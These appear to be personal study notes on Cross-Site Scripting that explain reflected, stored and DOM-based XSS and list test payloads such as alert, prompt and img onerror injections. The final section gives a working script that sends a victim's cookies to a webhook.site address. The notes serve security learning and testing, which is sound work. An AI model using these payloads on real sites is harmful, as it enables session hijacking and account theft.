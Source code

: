 
XSS or Cross-Site Scripting lets us execute javascript on a victim's computer in order to gather information and even take control of the browser.


Reflected - This is when you put in your script and you get a response back that includes the script.
This type is very limited since you can generally only target yourself but this is what is used to see if XSS is even possible on the site

Stored - This is where the script itself is stored on the database and affects any user that comes to the site and happens to load that script through the website.  Checking this is easier with a Firefox add-on called Multi Account Containers
	For this, we might use the following
		`<script>prompt(1)</script>`
		This, if the site is vulnerable, should prompt you with a 1 and a text input box.
	We can also do something like this
		`<script>alert(document.cookie)</script>` and this should spit out any cookies the user has
			For this, a malicious actor might not do an `alert` but instead have it kick out somewhere else that they have access to.
		This can be stopped by setting your cookies to `http only` which stops scripts from being able to read your cookies.

DOM-based - Everything happens locally in the browser.  An example of this would be a page that adds things to a list.  There is no network communication (can be checked in dev tools network tab) so it's all based within the browser itself.  There's no server communication.
	For this, we might use the following
		`<img src=x onerror="prompt(1)">`
		This will try to load the image from `img src` and won't be able to find `x` so it will error out and `onerror` will run our script.
	OR
		`<img src=x onerror="window.location.href = 'http://www.mysite.com'"/>`
		This will actually send the browser to another webiste when the image fails to load.


Checking for XSS capability
	Open your DevTools in the browser (ctrl + shft + C in firefox) and go to the console and you can type in there.
		`print()` this should pop up the print page
		`prompt("hello")` this should pop a window saying hello and asking for input
			`alert(1)` - this is being less usable as browsers update but was the OG lol

Common tactic for extracting cookies
	`<script>var i=new Image;i.src="https://webhook.site/30a82a00-7b3e-4773-a668-31cfd1191564/?"+document.cookie;</script>`
		This will send the contents of the cookie as a parameter of the website.  Make sure you add the /? at the end of the address to make the cookie a parameter in the URL and then add the cookie `+document.cookie;` and close your script.